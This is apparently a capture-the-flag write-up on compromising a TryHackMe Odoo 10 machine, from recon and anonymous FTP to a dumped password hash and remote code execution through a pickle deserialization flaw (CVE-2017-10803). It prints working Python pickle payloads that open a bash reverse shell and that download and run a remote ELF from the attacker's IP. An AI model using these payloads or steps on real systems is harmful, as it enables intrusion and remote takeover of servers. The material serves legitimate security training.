## Reconnaissance

### Front-End Recon
At first glance, we always explore the frontend webpages by inspecting elements, viewing the source code, and checking extension files. We also look for endpoints by examining headers in the elements.


If we look closely we found interesting endpoint 
> `qweb?mods=
- QWeb is Odoo’s templating engine (XML-based).
    - The `/web/webclient/qweb` path is where the frontend asks for QWeb templates.
    - mods= → Short for modules.
    - It tells the server which modules’ templates to load and return.

QWeb (XML templating engine) is used by Odoo to render dynamic UI components.


## Mapping & Discovery
```bash
❯ nmap obscure.thm
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-07 12:12 PST
Nmap scan report for obscure.thm (10.201.0.163)
Host is up (0.42s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 4.95 seconds
```
Further mapping services 
```bash
❯ nmap -Pn -sC -sV $(nmap -p- --min-rate=2000 -n -T4 obscure.thm | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed 's/,$//') obscure.thm -oN tcpres.txt


PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 65534    65534        4096 Jul 24  2022 pub
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.23.93.75
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:91:5c:43:c1:81:19:6e:0a:28:e8:16:78:c6:d5:c0 (RSA)
|   256 db:f8:7e:ca:5e:24:31:f9:07:57:8b:8d:74:cb:fe:c1 (ECDSA)
|_  256 40:6e:c3:a8:fb:df:15:d1:2b:9c:0f:c5:60:ba:e0:b6 (ED25519)
80/tcp open  http    Werkzeug httpd 0.9.6 (Python 2.7.9)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
|_http-server-header: Werkzeug/0.9.6 Python/2.7.9
| http-cookie-flags: 
|   /: 
|     session_id: 
|_      httponly flag not set
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
Upon checking with Wappalyzer, we know that going after low-hanging fruit is often a good starting point in the hacking process. That’s when I noticed the target system was running Odoo CMS.
### Technology Stack Identification 

```bash
❯ curl -I 10.201.116.160
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 84
Set-Cookie: session_id=3be08c2f91799126ccd48899dd75adf61ecc4ebf; Expires=Sat, 06-Dec-2025 01:40:00 GMT; Max-Age=7776000; Path=/
Server: Werkzeug/0.9.6 Python/2.7.9
```
## Vulnerability Analysis
### Manual Testing
```bash
❯ feroxbuster -u http://10.201.0.163 -w /usr/share/seclists/Discovery/Web-Content/common.txt --scan-dir-listings
303      GET        4l       24w      227c http://10.201.0.163/web => http://10.201.0.163/web/login
200      GET        1l        5w       84c http://10.201.0.163/
200      GET       54l      288w    23892c http://10.201.0.163/logo
200      GET       79l      132w     3141c http://10.201.0.163/web/login
[####################] - 2m      4750/4750    0s      found:4       errors:
```
Since the FTP server is open, we tried connecting as an anonymous user.
```bash
❯ ftp obscure.thm 21
Connected to obscure.thm.
220 (vsFTPd 3.0.3)
Name (obscure.thm:l0n3m4n): anonymous 
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 


ftp> ls
229 Entering Extended Passive Mode (|||65442|)
150 Here comes the directory listing.
drwxr-xr-x    2 65534    65534        4096 Jul 24  2022 pub
226 Directory send OK.

ftp> ls
229 Entering Extended Passive Mode (|||46621|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             134 Jul 24  2022 notice.txt
-rwxr-xr-x    1 0        0            8856 Jul 22  2022 password
226 Directory send OK.

ftp> mget *
mget notice.txt [anpqy?]? a
Prompting off for duration of mget.
229 Entering Extended Passive Mode (|||21312|)
150 Opening BINARY mode data connection for notice.txt (134 bytes).
100% |***********************************************************|   134       11.21 KiB/s    00:00 ETA
226 Transfer complete.
134 bytes received in 00:00 (0.32 KiB/s)
229 Entering Extended Passive Mode (|||5084|)
150 Opening BINARY mode data connection for password (8856 bytes).
100% |***********************************************************|  8856      719.32 KiB/s    00:00 ETA
226 Transfer complete.
8856 bytes received in 00:00 (17.89 KiB/s)
```
On the FTP server, we found two interesting files. One of them was a binary that checks a user ID, and if the ID is correct, it reveals the user's password.

The issue here is that in real-world scenarios, password reuse across different platforms is very common. As attackers, we can take advantage of this by performing password spraying against other accounts or services connected to the same machine or network.
### Reverse engineering
```bash
❯ file password
password: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=97fe26005f73d7475722fa1ed61671e82aa481ff, not stripped

❯ chmod +x password
❯ ./password
Password Recovery
Please enter your employee id that is in your email
1
Incorrect employee id

❯ strings password > password.txt

❯ ./password
Password Recovery
Please enter your employee id that is in your email
971234596
remember this next time 'SecurePassword123!'
```



### Unzipping backup file 
```bash
❯ unzip main_2025-09-07_08-16-21.zip
Archive:  main_2025-09-07_08-16-21.zip
  inflating: dump.sql                
  inflating: manifest.json           
  inflating: filestore/3e/3e9258f2145fd1b26ae520a58f2c0faaf6cf48b7  
  inflating: filestore/01/01157b1c3257f89fcea410089fdb73c65a697a9e  
  inflating: filestore/6c/6c2467641b776c687b34c68c0afe660dc82f53bd  
  inflating: filestore/6c/6cf0e8002c646e1fbd42bc75d4c82de01b4c8290  
  inflating: filestore/07/0787cd3ab836a4fc4083ff9e3c40dd7fa2449281  
```
After unzipping the archive, we investigated each file for suspicious executables, scripts, or other anomalies. To speed up this process, we used built-in tools such as find.
```bash
❯ find . -type f -exec file {} \;
```
```bash
./02/026ec849b035ddda0d89f62f7dcc83ed3d04fc68: PNG image data, 250 x 188, 8-bit/color RGBA, non-interlaced
./02/02e0a9652b82876a3457dbd9f7737b1643840ebb: PNG image data, 300 x 131, 8-bit/color RGBA, non-interlaced
./62/621ae7b7e181a27049be09db7d6f266948539fee: PNG image data, 250 x 156, 8-bit/color RGBA, non-interlaced
./62/626999cd665ed524dfe106cec131155b61ea987c: PNG image data, 250 x 167, 8-bit/color RGBA, non-interlaced
./84/844ebf4ec389573d0963533315feeebbffbb6d1a: PNG image data, 250 x 167, 8-bit/color RGBA, non-interlaced
./25/25a79a31e6138a4309eb771d74b9751990661053: PNG image data, 250 x 150, 8-bit/color RGBA, non-interlaced
```
Then we need to save the non-PNG files, since inspecting each one manually would take too much time.

checking recursively inside those sub-directories to see the actual contents.
```bash
❯ find . -type f -exec file {} \; | grep -v "PNG image data" > not_png_.txt
```
```bash
❯ cat not_png_.txt
./9f/9f62b92ebba802e21e67241945990a3b396779f8: Unicode text, UTF-8 text, with very long lines (38346)
./not_png_.txt: empty
./51/511780f99e90b3cbc2020d31e7beaae6f90f962e: JavaScript source, ASCII text, with very long lines (3664)
./ce/ce9196643a4654bde5ffe67982820e0bcadfa5ea: JavaScript source, ASCII text
./1b/1b62ba4c6a981a5ba5df88b05aaa756e68d87b5e: JavaScript source, Unicode text, UTF-8 text, with very long lines (2885)
./34/34c0ebeab9785dda2bf3f6d01806ac271dc99252: JavaScript source, Unicode text, UTF-8 text, with very long lines (16285)
./14/1473690ef56fc9fd075981c61f98eb94432b4cdf: Unicode text, UTF-8 text, with very long lines (13584)
./c1/c1792c94d1fafeaad712f3cd0a643541213b8686: ASCII text, with very long lines (63834)
./08/08f6d6bafb0988d29e54caf4350b3704eff1c987: ASCII text, with very long lines (29627)
./c0/c04f5f13e32d1ea6110b453e68f50e57513e06e1: ASCII text, with very long lines (63841)
./f6/f65da016b289849f415499ac026b3d5ecb38ee11: JavaScript source, ASCII text, with very long lines (3151)
./f6/f694ddbeff85a1b95da82ebeccf0162b3859c0d5: ASCII text, with very long lines (11349)
~/thm/obscure/filestore ❯ 
```
Saving all non png files one one directory 
```bash
~/thm/obscure ❯ mkdir non_pn_files

❯ awk -F: '{print $1}' ~/thm/obscure/filestore/not_png_.txt | grep -v "not_png_.txt" | xargs -I{} cp {} ../non_png_files/
```
I didn’t spend too much time on the other files since the filestore didn’t contain anything useful. We then proceeded to analyze another file, and later discovered a `dump.sql` database and a `manifest`. The goal of extracting information from the filestore was to check whether it contained any usernames or passwords.

### Odoo version 
that’s Odoo 10, which is end-of-life and full of known exploits
```bash
❯ cat  manifest.json
{
    "odoo_dump": "1", 
    "version": "10.0-20190816", 
    "version_info": [
        10, 
        0, 
        0, 
        "final", 
        0, 
        ""
    ], 
    "major_version": "10.0", 
    "modules": {
        "web": "10.0.1.0", 
        "web_diagram": "10.0.2.0", 
        "web_planner": "10.0.1.0", 
        "auth_crypt": "10.0.2.0", 
        "base_import": "10.0.1.0", 
        "web_kanban": "10.0.2.0", 
        "web_calendar": "10.0.2.0", 
        "web_editor": "10.0.1.0", 
        "web_settings_dashboard": "10.0.1.0", 
        "web_tour": "10.0.0.1", 
        "web_kanban_gauge": "10.0.1.0", 
        "base": "10.0.1.3"
    }, 
    "db_name": "main", 
    "pg_version": "9.4"
}%         
```
Upon closer inspection, we noticed the presence of an Administrator account, which is a potential red flag. For example, by grepping for the username Administrator in the dump, we might be able to retrieve the corresponding password hash.
```bash
❯ cat dump.sql | grep "username"
```
```bash
❯ cat dump.sql | grep "Administrator"
```
Here, we discovered two valuable pieces of data a user's email address and their password hash. I attempted to crack the hash, but it didn’t yield any results likely a dead end. So, we decided to move on and continue exploring.
```bash
225     \N      \N      2022-07-23 10:51:25.001663      1       https://www.odoo.com/page/accounting Financial and Analytic Accounting        account_accountant      Odoo S.A.       /account_accountant/static/description/icon.png       uninstalled     \N      Accounting and Finance  1       \nAccounting Access Rights\n========================\nIt gives the Administrator user access to all accounting features such as journal items and the chart of accounts.\n\nIt assigns manager and user access rights to the Administrator for the accounting application and only user rights to the Demo user.\n        t    ff       LGPL-3  35      f       \N      \N              \N              \N
3       Administrator   1       \N      \N      \N      2022-07-23 10:51:25.449364      0       t    \N       \N      Administrator   \N      \N      \N      \N      \N      \N      f       \N      admin@antisoft.thm    f       \N      en_US   \N      \N      \N      f       2022-07-23 10:52:10.087949   \N       \N      1       f       1       \N      \N      \N      contact f       \N      \N      3
1       t       admin@antisoft.thm              1       3       \N      f       1       \N      \N   2022-07-23 10:52:10.087949       <span data-o-mail-quote="1">-- <br data-o-mail-quote="1">\nAdministrator</span>       $pbkdf2-sha512$12000$lBJiDGHMOcc4Zwwh5Dzn/A$x.EZ/PrEodzEJ5r4JfQo2KsMZLkLT97xWZ3LsMdgwMuK1Ue.YCzfElODfWEGUOc7yYBB4fMt87ph8Sy5tN4nag
```
We identified an email address that could serve as a valid username. Using a previously discovered password, we attempted to log in with these credentials.


 
 

### Vulnerability Validation

```bash
❯ searchsploit  odoo 10.0
-------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                      |  Path
-------------------------------------------------------------------- ---------------------------------
Odoo CRM 10.0 - Code Execution                                      | linux/local/44064.md
-------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
```bash
❯ searchsploit  -p linux/local/44064.md
  Exploit: Odoo CRM 10.0 - Code Execution
      URL: https://www.exploit-db.com/exploits/44064
     Path: /usr/share/exploitdb/exploits/linux/local/44064.md
    Codes: CVE-2017-10803
 Verified: False
File Type: Python script, Unicode text, UTF-8 text executable, with very long lines (395)
Copied EDB-ID #44064's path to the clipboard
```




### Payload
```py
import cPickle
import os
import base64
import pickletools

class Exploit(object):
def __reduce__(self):
return (os.system, (("bash -i >& /dev/tcp/10.23.93.75/8000 0>&1"),))

with open("exploit.pickle", "wb") as f:
    cPickle.dump(Exploit(), f, cPickle.HIGHEST_PROTOCOL)
```
After uploading the exploit.pickle file, it consistently throws an error. It appears that the target system is running Python 2.7, which may be causing compatibility issues.



## Exploitation

On some target systems, /dev/tcp is either disabled or Bash lacks support for it. To work around this, we use curl, which is typically available by default on most Linux systems. We also included compatibility with Python 2.7, as earlier attempts encountered errors.

The script will generate a malicious .pickle file. Once created, upload the file and click on "Reverse Database Anonymization" while your Netcat listener is active.
> python2.7
```py
import cPickle
import base64
import os
import pickletools


class Exploit(object):
    def __reduce__(self):
        cmd = "curl http://10.23.93.75:8000/shell.elf > /tmp/shell; chmod +x /tmp/shell; /tmp/shell"
        return (os.system, (cmd,))

with open("exploit.pickle", "wb") as f:
    cPickle.dump(Exploit(), f, cPickle.HIGHEST_PROTOCOL)
```


```bash
python2.7 -c 'import pty;pty.spawn("/bin/bash")'
 
odoo@b8a9bbf1f380:/$ export TERM=linux
export TERM=linux
```

```bash
msf6 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                   Information        Connection
  --  ----  ----                   -----------        ----------
  1         meterpreter x86/linux  odoo @ 172.17.0.3  10.23.93.75:4444 -> 10.201.77.14:34366 (172.17.0.
                                                      3)
```
I was using Metasploit to get a more stable shell and simulate a real-world scenario. This machine is part of my red team infrastructure something I’ve always wanted to use in both live environments and CTFs. That’s why you’re seeing the VS Code terminal I find it necessary to document everything during red teaming and penetration testing.

You can also experiment with different C2 servers or host them on a cloud VPS if you want to simulate more realistic attack scenarios.

For now, I’ll stop here since we've achieved initial access. Interestingly, most hackers whether white hat or black hat tend to pause at this point. Why? Because gaining access to a vulnerable endpoint is usually just the beginning. most sophisticated attacks often don’t happen during working hours; they’re launched at night, on holidays, or weekends times when defenders,soc are least active.

That’s when attackers escalate things setting up persistence, pivoting to other systems, escalating privileges, exfiltrating data, and finally covering their tracks to evade detection and forensics.

Alright, that’s all for this write-up. Stay sharp and see you in the next one :)


